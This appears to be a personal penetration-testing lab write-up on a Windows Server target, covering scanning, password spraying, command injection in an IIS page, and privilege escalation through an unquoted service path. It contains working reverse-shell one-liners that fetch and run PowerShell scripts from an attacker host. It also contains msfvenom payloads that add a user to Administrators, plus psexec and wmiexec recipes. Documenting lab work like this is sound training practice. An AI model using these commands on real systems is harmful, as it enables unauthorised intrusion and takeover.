




## Enumeration & Reconnaisance
### nmap 
1. fastscan
nmap -p- --max-retries 1 -sS -Pn -n 172.31.195.207 -oA fastscan
  - winrm - 5985 , 47001 - https?
2. topports
nmap --top-ports 1000 -sS -Pn -n 172.31.195.207 -oA topports
3. detailed
nmap -p 80,135,139,445,3389,5985,9120,47001,49664,49665,49666,49667,49669,49670,49677 -sV -sC -Pn -n 172.31.195.207 -oA detailed 
  - I think these are SMB related RPC useless or metadata on 135port


## Vulnerabilities Assessment
>what's service detetion?, do they affect me? 
>9120/tcp  open  unknown
   - can't get -sV, not working 
### HTTP 80 HTTPAPI? - MS-IIS 10, 2016~  
- no known vuln
  new one
    just methods to exploit 

- scripts
  - default 
    - TRACE method
  - http-enum
  - vuln
  - exploit

#### in browser
what do they function?
- I think it's like bruteforcing cocept explanation
- carolina is the most common passwords
  go bruteforcing as dir or creds 

ctrl U
annotaion
  author : minseok.kim
    custom userlist
    password might be carolina
    password spraying 
      hydra -L username.txt -p 'carolina' smb://172.31.214.13 -s 445 -V
        no response
          I rather use anotehr tools like netexec  
      

robots.txt
  x

language?

- gobuster
1. simple
gobuster dir -u http://172.31.214.13/ -w /usr/share/dirb/wordlists/common.txt -t 20 -o simple -f

with file extension
gobuster dir -u http://172.31.193.213/ -w /usr/share/dirb/wordlists/common.txt -t 20 -x php,html,txt -o file

2. detailed
gobuster dir -u http://172.31.214.13/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 20 -o detailed -f
  exceeded > slow it down

with file extension
gobuster dir -u http://172.31.214.13/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 10 -x php,html,txt -o detailed_file -f 

later
  `-x bak,bac,zip,back,backup,docs,xlxs,git`

- [+] try non`-f`version when you're looking for extensions


- in Windows, 
  - root dir "c:\inetpub\wwwroot"
  - default IIS structure
    - iisstart.htm
      - default index page
      - 
    - iisstart.png
    - web.config
      no config
    - aspnet_client 

- file extension and language : asp
 - aspx,asp,htm,config
  - ping.aspx
    - command injection 
    - script language: C#
    - whatfunction? arp -a ?
      - 
      - cmd.exe /c nslookup <arg>
        - nslookup 172.31.193.213&&whoami
        
- iis apppool\defaultapppool : webserver account, it's different host name?, ec2 instance?, 
  - no it's the same host because of the same IP
  - no it's the same hostname : brute ,but iis apppool is domain name I guess 
  - what kind of attack does it can? with this service account/user, what kind of privilege does it have?
   
- what do you have?
  - it doesn't have nc.exe or ncat.exe
  - wget /? 2>&1
    - stdout no
  - load conpty powershell script(ps1) IEX 
```
IEX(IWR https://KALI_IP/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.8.0.129 1234

IEX(IWR http://10.8.0.129/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.8.0.129 1234

  - IEX not working in cmd
powershell IEX(IWR http://10.8.0.129/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.8.0.129 1234
  - it's working but not well

```
  - powershell
    - just execute powershell command
    or go to powershell, and then execute 
      - powershell -nop -c 'commands'
    - powershell script(powershell-reverse-shell.ps1) download from the internet(github or revshells.com > KALI) and then execute rightaway(KALI) 
      - nishang powershell reverse shell - Invoke-PowerShellTcp.ps1
```
KALI
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1


powershell -nop -c IEX(New-Object Net.WebClient).DownloadString('http://10.8.0.129/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.8.0.129 -Port 4445
```
  - it's better than executing powershell commadns right away(it makes mess)
    - or download ps1 on writable dir, and execute ps1
```
powershell wget http://10.8.0.129/Invoke-PowerShellTcp.ps1 -outfile .\Invoke-PowerShellTcp.ps1
  - access denied

powershell wget http://10.8.0.129/Invoke-PowerShellTcp.ps1 -outfile c:\windows\temp\Invoke-PowerShellTcp.ps1

powershell c:\windows\temp\Invoke-PowerShellTcp.ps1
  - access denied, it's not good place
    - temporary directory writable for programs: 
    1. c:\users\public - anyone has write permission
    2. c:\inetpub - not sure
    
    - only for actual users
    1. C:\Users\dhffl\AppData\Local\Temp - current user only 
    2. c:\windows\temp - only for actual users  

powershell wget http://10.8.0.129/Invoke-PowerShellTcp.ps1 -outfile c:\users\public\Invoke-PowerShellTcp.ps1


powershell c:\users\public\Invoke-PowerShellTcp.ps1
  - 
  - it's not allowed to run scripts by default 
  - need `Set-ExecutionPolicy RemoteSigned` as local administrator
  - so it's worse than in-memory attack
```

  - iis aspx revshell
    - cp /usr/share/webshells/aspx/cmdasp.aspx .
    - github shell.aspx
```
powershell wget http://10.8.0.129/shell.aspx -outfile c:\inetpub\wwwroot\shell.aspx
  - access denied
```

  - python
    - X 

    
#### get powershell as iis apppool\defaultapppool,
sc.exe config "Disk Pulse Enterprise" binpath= "c:\temp\malicious.exe"
  - denied 
    - find another services or SW
    - I think actual user is higher than web server


### SMB 139,445
- scripts
  - smb-vuln*
  - smb-vuln-ms*
    no
  - smb ?
    too much flood etc
  - or other thing?


1. first of all, we think oh I need to check what files is in?
- read/write permission check
  - netexec
  netexec smb 172.31.214.13 -u '' -p ''
    check null session (no input creds)
    x
    password spraying
      netexec smb 172.31.214.13 -u username.txt -p 'carolina' --verbose
        minseok.kim:carolina matched
  netexec smb 172.31.214.13 -u 'minseok.kim' -p 'carolina' --shares
    default share? but read permissons on IPC$
  - smbmap
  smbmap -H 172.31.214.13
  - enum4linux
    enum4linux -a 172.31.214.13
- access to shares
  - smbclient \\\\172.31.214.13\\IPC$ -U minseok.kim%carolina
    nothing files
      no writable as this user = can't get shell with impacket-psexec
        RDP or WinRM and privilege escalation first(if it is in group of Remote Desktop Users or Remote Management Users > check one by one) 

- need to know creds to see shares and access

2. get remote access unofficially 
  - get shell wiht impacket-psexec as system
impacket-psexec user:'password'@172.31.214.13


### RDP 3389
- microsoft terminal services = RDP
  - oh I can go through RDP when I have creds
- we're gonna get creds of low or high accounts doing LSASS dump - invoke-mimikatz -dump~ to get NTLM hash > 1. decrypt 2. use rightaway runas specific user 
  and check if the user is in RDP groups or not.
vulns in this version or ?

- script
  - default
    - version: 10.0.11
    - what is brute?
    - Domain name?
  - rdp*
    computer info- domain or computer name = BRUTE

- as minseok 
xfreerdp /u:minseok.kim /p:'carolina' /v:172.31.233.99 /dynamic-resolution
  let's dive deep for Escalation Privilege in Post-Exploitation 
  
   


### WinRM 5895 47001
- usually 5985 5986
- 47001 I think 
it shows as http

check if it is in group of Remote Management Users as minseok
evil-winrm -i 172.31.167.162 -u minseok.kim -p 'carolina'
  no connection

### WMI 135
- it shows name as msrpc
- another ports as msrpc are like metadata 

- script 
  - default
    - msrpc
  - msrcp-enum
    x


- get shell with impacket-wmiexec


WinRM
-evil-winrm
PS based 

SMB
-impacket-psexec
-upload servicebinary to ADMIN$ share
and  request(RPC) to create service and 
start service
get SYSTEM priv

WMI
-impacket-winwmi
get administrator priv 


## Exploitation & Initial Acess

## Post-Exploitation & Privilege Escaltion

### information gathering with RDP as minseok
OS : WIndows server 2019 Detacenter 
version :  10.0.17763 N/A Build 17763
45 hofix installed
NIC 1 installed?
  Amazon Elastic Network Adapter
    ethernet 3 itself 

winver
  1809 (2018 released)

ipconfig /all
  gateway 172.31.128.1
  DNS server  172.31.0.2


ports opened to public  
  9120 curious 
  PID 1308 
    ps | Where-Object {$_.id -eq "1308"}
    processname diskpls = dis pulse 
opened to local
  56518? idk


SW installed
- C:\ 
  Disk management\Disk Pulse Enterprise
  inetpub
    IIS 
      you can check the source code
- program files
  amazon ec2
  google chrome
  PackageManagement
    powershell related
  notepad++
  - x86 
    nothing

- what version are they?


- let's post-exploit as actual user first
  - and as web account 
1. gather vuln services and modify attributes 
2. replace service binary itself on binpath

but I didn't have priv to restart-service "Disk Pulse Enterprise" in the first place


>do information gathering again

- is there any locally running httpd?

- what I forgot are
  - whoami /priv

c:\users\all users\ (c:\programdata)
  chocolatey 
    installer to simplify the downloading and installing process 
    it uses nuget
  PY_Software
  shimgen


if I find installed SWs, 
what should I do with them?
config files?


hotfix and OS version - vulns

dns server : 172.31.0.2

ps
running
  diskpls
  
get-service running
  dis plus enterprise
  I have no idea
  where's the httpd?

netstat -ano
  0.0.0.0:9120 - pid: 1984 > diskpls 
    version? how can I access?
  80 http opened

filesystem
  c:\
    disk management - 2024
    ...

  c:\programdata
  4/28/2024   3:56 AM                PY_Software

  c:\program files
  Notepad++ 2023

  PackageManagement 2024
    like apt 
    chocolatey included

  c:\program files (x86)
    Google 2024

  misconfiguration
    find config files

```powershell
get-service | where-object {$_.status -eq "running" -and $_.displayname -match "dvr"}
```

I think there's no service other than Disk pulse enterprise
  I've got priv of restart-service "Disk pulse enterprise"

```zsh
msfvenom -p windows/x64/exec CMD="net localgroup Administrators minseok.kim /add" -f exe-service -o Disk.exe
```
- don't make a typo > net localgroup Administrators minseok.kim /add
```powershell
wget(invoke-webrequeset) http://10.8.0.129/Disk.exe -OutFile "C:\Disk Management\Disk.exe"
```

- 
  - failed, but the warning doesn't matter because it does execute Disk.exe according to the order of function(CreateProcess - WinAPI)


I didn't need webshell in the first place, having an access to actual user is better

==============================
# White board
## Post-exploitation when you get shell or RDP(remote access)


#### information gathering 
- who am I 
whoami
hostname
net user
net user USER
net localgroup

systeminfo
  OS/version
  Hotfix
    not secure
winver
  build number detailed
    oh it's released at, find out the exploitation

- network 
arp -a (layer2)
  - it's usually gateway
ipconfig /all (layer3)
  - how mnay NIC
  - gateway, dns server
netstat -ano 
  - running locally ?

- processes
ps

- services
  - running services is useful, stopped are useless  
get-service | where-object{$_.status -eq 'running'} 


- softwares installed 
path
c:\
c:\program files
c:\program files (x86)
c:\opt
  - it's only in linux, so guess it's s

check right away
  - they're attack surface, find out the vulns and leverage ,
  - exe binary 
  - or config file 
  
- and tip : check lastwritedate  

misconfiguration
  - IT realted : .ini .config .xml
  - nonrelated common user: .txt .md 
    - don't do `-force`. too much results 

powershell history 
  - PS
unattended file
  - force 
  - searching in c:\windows\ takes too much
    - c:\windows\panther\ first
    - c:\windows\system32\sysprep\ second
  - nothing
 
unquoted service path
  C:\Disk Management\Disk Pulse Enterprise\bin\diskpls.exe
  - icacls 
      Write priv
  - accesschk.exe
    - sysinternalssuite 
```zsh
msfvenom -p windows/x64/exec CMD="net localgroup Administrators minseok.kim /add" -f exe-service -o Disk.exe
```
  shutdown /r
    don't have priv to restart-service or reboot
  
modify priv from service in bin path
  - accesschk.exe
    - specific user's priv about service
      - no write access.
    - Group's priv, where all users are in


gathering SW installed or service list first


#### Methods
credential manager
  IT-related employees use credentials manager and save many accounts
    - sys admin/manager
    - helpdesk
    - etc. who need to log in with many creds, they don't remember. 
  because doesn't need to put creds whenever you log in 

    - if GUI
      - web credentials
        - IE or edge browser's saved creds
      - windows credentials
        - saved creds to application, service 
    - if not GUI in many of cases
      - cmdkey /list

    - basically, DPAPI encrypted, you have two ways to exploit it 
    1. decrypt
    2. run as this user with this encrypted creds rightaway
      - runas /savedcred "powershell.exe"


misconfiguration
  - IT-related employees
  ini, config, xml
    get-childitem(ls) -path "C:\Users\USER\" -recurse -include *.ini,*.config,*.xml -erroraction silentlycontinue -Force ?

  - nonIT-related employees
  ini config xml default and plus, 'md, txt, docx, xlsx, git,etc.' in \USER\Download(Document, Desktop)
    - like 'how to access to the service.md'
    - check if there's creds

powershell history
  - (Get-PSReadLineOption).HistorySavePath

unattended file
  - for setting provisioning to mass of employee (in workstation and laptop, need to set up network setting, install programs > with script)
    - it means they leave creds to access to networkservice like powershell history 
    - when create user
    - proxy or access to service
    - ...
  - path depends on solutions
    but usually 
    c:\windows\panther\unattend.xml
    c:\windows\panther\unattended.xml
    c:\windows\panther\unattend\unattend.xml
    c:\windows\panther\unattend\unattended.xml
    c:\windows\system32\sysprep\sysprep.inf
    c:\windows\system32\sysprep\sysprep.xml

  - so find these file recursively 
  - get-childitem -path "c:\windows\" -recurse -include 'unattend.xml','unattended.xml','sysprep.inf','sysprep.xml','unattended.txt' -erroraction silentlycontinue -force
    - if don't know the existence of panther dir 
  
unquoted service path
- Create WinAPI function finds in own order
- check imagepath(servie binary's path)


- requirement
  - no double quotes in service path
  - white pace exists
  "c:\windows\abyss Web server\aybss"
    - "c:\windows\abyss.exe - replace with malicious binary 
  - check writable perm about this path
    - icacls 
    - sysinternalsSuite tools > accesschk
      - more visibility 

  - check restart possible or rebook host as current user
    - restart-service abysswebserver


  - not binpath, service path
  - not Get-Service (they don't have service path )
  - check 
  Get-WmiObject Win32_Service | Where-object {$_.Startmode -eq 'Auto' -and $_.pathname -notlike 'c:\windows\*' -and $_.PathName -notmatch '^\s*\".*$'} | select-object Name, DisplayName, PathName, StartMode

misgranted specific user or group with modify service 
  1. binpath
  - binpath 
  - check binpath: sc.ex qc SERVICE 
  - make payload : msfvenom -p windows/x64/exec CMD="net user Administrators redraccoon /add" -f exe-service -o malicious.exe
  - modify : sc.exe config SERVICE binpath ="c:\temp\malicious"
  - check and confirm application and restart
  - restart-servie 

  2. or replace service binary itself  
  - check binpath: sc.ex qc SERVICE 
  - check write permission to specific user
  - make payload : msfvenom -p windows/x64/exec CMD="net user Administrators redraccoon /add" -f exe-service -o SERVICENAME.exe
  - replace binary with same service binary name

remote access 
official
1. RDP
  - xfreerdp /u:
  - rdeskrdp -u: 
2. WinRP 
  - evil-winrm like ssh 
unofficial
3. SMB
  - upload malicious file ADMIN$ as local Administrator priv 
    - and create service(path=malicious file) with RPC request
    - and start service
    - get shell as Authority\SYSTEM

  - impacket-psexec Administrator:"Password123!" 
    - python based tools, scripts and libraries  
    - get as SYSTEM
4. WMI
  - impacket-winwmid Administrator:"Password123!" 
  - get CMD as Local administrator


## Review & Remind
1. RDP, WinRM, SMB, WMI were opened
  but I need user account, actual users
    need to find creds first

2. http 
  concept of bruteforce > guess the common password: carolina 

  ctrl U
    annotation
    author
      make custom username


  gobuster dir -x aspx,asp,htm
    found command injection vulns page
      and can get webshell with in-memory(powershell IEX(webrequest~))
      but I don't need because it has low priv as webserver_account 
3. hydra smb  
  the only one way to check out if it's valid match/creds is do brute forcing with SMB
```bash
hydra -L username.txt -p carolina smb://IP -s 445 -V
``` 
  got valid creds 
4. check if this user is in Remote Desktop Users group or Remote Management Users , or even local admin(Administrator) in Administrators group
  check 4 ways in person one by one.
    RDP access
5. Unquoted Service path 
  find out the service running but has double quotes and white space in the service binary path  
```powershell
Get-WmiObject Win32_Service | Where-object {$_.Startmode -eq 'Auto' -and $_.pathname -notlike 'c:\windows\*' -and $_.PathName -notmatch '^\s*\".*$'} | select-object Name, DisplayName, PathName, StartMode
``` 
  by using icacls and accesschk.exe, 
  check has write permission on the path
    make payload that lets this user in the Adminstrators localgroup and outfile on the path.
    restart-service "SERVICE_NAME"
     get Adminstrators group